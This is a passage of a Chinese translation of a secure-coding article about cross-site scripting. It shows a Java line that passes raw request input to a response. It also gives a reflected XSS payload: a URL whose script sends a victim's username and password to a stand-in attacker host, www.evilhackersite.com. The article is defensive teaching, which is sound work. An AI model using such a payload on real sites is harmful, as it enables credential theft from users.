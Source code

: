 # 如何编写安全的代码？

> 原文：<https://infosecwriteups.com/how-to-write-secure-code-b2757b59cd4b?source=collection_archive---------0----------------------->

## 保护自己免受跨站点脚本攻击！

在过去的几个月里，我一直致力于安全代码实践，并试图与社区讨论易于采用的方法。我们每天看到的不安全代码的数量确实令人震惊，我们都同意“预防胜于治疗”。

保护我们的代码和应用程序安全的最好方法是从一开始就对它们进行适当的编程。编写一个安全的代码并不困难也不复杂，它所需要的只是程序员知道在哪里包含安全检查。这只是几行额外代码的问题，但仅此一项就可以抵御针对您的应用程序的大量攻击。

# 让我们开始吧！

所以，这篇特别的文章“如何编写安全的代码？”专注于跨站点脚本问题。

每当应用程序获取不受信任的数据并在没有适当验证和转义的情况下将其发送到 web 浏览器时，就会出现跨站点脚本缺陷。XSS 允许攻击者在受害者的浏览器中执行脚本，这可以劫持用户会话，破坏网站或将用户重定向到恶意网站。

下面的代码是 XSS 攻击发生的一个例子，它的输入没有经过处理，直接传递给参数。

```
String firstNameParameter=(String)request.getParameter(“firstName”);
```

用户输入的值立即存储在本地变量 firstNameParameter 中，然后在 HTTP 响应中将该值发送到浏览器，不进行任何输出编码。

在本文中，我将介绍几种不同类型的攻击和方法，您每天都会遇到的攻击和方法，以及您可以用来防止它们的方法

## 1.反映了 XSS

一次只能有一个受害者。我们可以看到，当一个恶意的有效载荷传递给受害者时，他们最终会点击恶意的 URL，并让黑客访问他们的 cookies 和其他数据。

这里是一个有效载荷的例子，如果受害者执行，攻击者可以访问他们的详细信息。

```
[https://mybank.com/submitForm.do?customer=
<script>
function+stealCredentials()](https://mybank.com/submitForm.do?customer=%3Cscript%3Efunction+stealCredentials())
{
location.href=“[www.evilhackersite.com](http://www.evilhackersite.com)?name=document.myform.username.value
&password=document.myform.pword.value”
}
</script>// the whole script is to be passed as an url. 
// it has been presented as such to enhance readability. 
```

![](img/0a271df5e807540f77a9c66e9871d380.png)
